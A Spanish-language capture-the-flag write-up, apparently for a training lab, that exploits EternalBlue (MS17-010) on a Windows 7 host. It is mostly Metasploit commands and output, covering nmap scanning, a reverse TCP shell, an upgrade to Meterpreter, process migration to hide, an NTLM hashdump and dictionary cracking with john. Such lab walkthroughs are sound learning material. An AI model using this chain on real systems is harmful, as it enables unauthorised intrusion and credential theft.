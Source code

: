 ```yaml
---
tags:
  - Metasploit
  - Meterpreter
  - Eternal_blue
---
```

Vamos a comenzar esta maquina, realizando un escaneo de puertos con la herramienta `nmap` a la IP que se me ha otorgado `10.10.73.62`.
```sh mar=1 imp=9,17
root@ip-10-10-126-207:~# nmap -sS -sV 10.10.73.62
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-09 10:35 BST
Nmap scan report for 10.10.73.62
Host is up (0.00051s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:F2:85:7C:09:6D (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.12 seconds
```

En esta salida con los parámetros "**-sS**" (Ocultamiento de huella) y "**-sV**" (Nos permite ver las versiones e información relevante) podemos ver que tenemos un servicio samba abierto en el puerto 445, ahora vamos a revisar si es vulnerable a la vulnerabilidad `ms17-010` o mejor denominada "**Eternal blue**", esto nuevamente lo vamos a realizar con `nmap`.

```sh mar=1 imp=14
root@ip-10-10-126-207:~# nmap -p 445 --script smb-vuln-ms17-010 10.10.73.62
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-09 10:41 BST
Nmap scan report for 10.10.73.62
Host is up (0.00017s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:F2:85:7C:09:6D (Unknown)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
```

Con este comando hemos realizado un escaneo al servidor con una vulnerabilidad dirigida (`ms17-010`) con el parámetro "**--script smb-vuln-ms17-010**" y en la salida vemos como tiene activa esta vulnerabilidad, por lo que ahora ya podemos determinar dos cosas, primero que es un "windows 7" y tiene la versión de "Sambav1".

Ahora que ya sabemos que es vulnerable a eternal blue, vamos a iniciar `Metasploit` con el modulo "**exploit/windows/smb/ms17_010_eternalblue**" y le ponemos el único dato que tenemos.

```sh mar=1,4,6 imp=7
root@ip-10-10-126-207:~# msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.73.62
RHOSTS => 10.10.73.62
```

Ahora para un mejor manejo de la situación vamos a asegurarnos de tener un buen payload

```sh mar=1 imp=2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

Y ahora si vamos a desplegar el ataque que hemos configurado

```sh imp=28-30,38
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.126.207:4444 
[*] 10.10.73.62:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.73.62:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.73.62:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.73.62:445 - The target is vulnerable.
[*] 10.10.73.62:445 - Connecting to target for exploitation.
[+] 10.10.73.62:445 - Connection established for exploitation.
[+] 10.10.73.62:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.73.62:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.73.62:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.73.62:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.73.62:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.73.62:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.73.62:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.73.62:445 - Sending all but last fragment of exploit packet
[*] 10.10.73.62:445 - Starting non-paged pool grooming
[+] 10.10.73.62:445 - Sending SMBv2 buffers
[+] 10.10.73.62:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.73.62:445 - Sending final SMBv2 buffers.
[*] 10.10.73.62:445 - Sending last fragment of exploit packet!
[*] 10.10.73.62:445 - Receiving response from exploit packet
[+] 10.10.73.62:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.73.62:445 - Sending egg to corrupted connection.
[*] 10.10.73.62:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.73.62
[*] Command shell session 1 opened (10.10.126.207:4444 -> 10.10.73.62:49243) at 2025-06-09 11:08:01 +0100
[+] 10.10.73.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.73.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```

Y ganamos acceso a la máquina :], ahora la pondremos de fondo y usaremos un modulo que nos piden.

```sh mar=1,2,16 imp=26,23 
msf6 post(multi/manage/shell_to_meterpreter) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.10.126.207:4444 -> 10.10.73.62:49243 (10.10.73.62)

msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
```

Y ejecutamos el exploit

```sh mar=1 imp=5
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.126.207:4433 
[*] Post module execution completed
```

Ahora vamos a revisar que tengamos todos los privilegios (NT AUTHORITY\SYSTEM)

```sh mar=10,24 imp=19,25
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.7.100:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (203846 bytes) to 10.10.7.248
[*] Meterpreter session 2 opened (10.10.7.100:4433 -> 10.10.7.248:49196) at 2025-06-09 12:42:54 +0100
[*] Stopping exploit/multi/handler
sessions

Active sessions
===============

  Id  Name  Type                     Information                                             Connection
  --  ----  ----                     -----------                                             ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] ---  10.10.7.100:4444 -> 10.10.7.248:49188 (10.10.7.248)
                                     --
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                            10.10.7.100:4433 -> 10.10.7.248:49196 (10.10.7.248)

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Ahora para "camuflarnos" entre los servicios, vamos a migrar nuestro servicio

```sh imp=17-18 mar=16,1
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 356   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
[...]
 2004  816   WmiPrvSE.exe
 2156  692   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2216  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
[...]
meterpreter > migrate 2156
[*] Migrating from 2576 to 2156...
[*] Migration completed successfully.
```

Y ahora si ya estamos camuflados 

```sh
2156  692   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
```

Ahora si podremos actuar de forma segura, lo primero que vamos a hacer es tener persistencia en el sistema crackeando contraseñas, para ello lo primero que vamos a hacer es hacer un `hashdump` y ver que usuarios pueden ser interesantes crakear la contraseña.

```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Y vamos a crakear las 2 contraseñas más interesantes mediante un ataque de diccionario con rockyou.

```sh mar=1,10,11 con=6,16
root@ip-10-10-7-100:~# john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
1g 0:00:00:06 DONE (2025-06-09 12:54) 0.1517g/s 1547Kp/s 1547Kc/s 1547KC/s alr1979..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
root@ip-10-10-7-100:~# nano hash2.txt
root@ip-10-10-7-100:~# john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash2.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (?)
1g 0:00:00:00 DONE (2025-06-09 12:57) 50.00g/s 240000p/s 240000c/s 240000C/s terminator..2222222
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

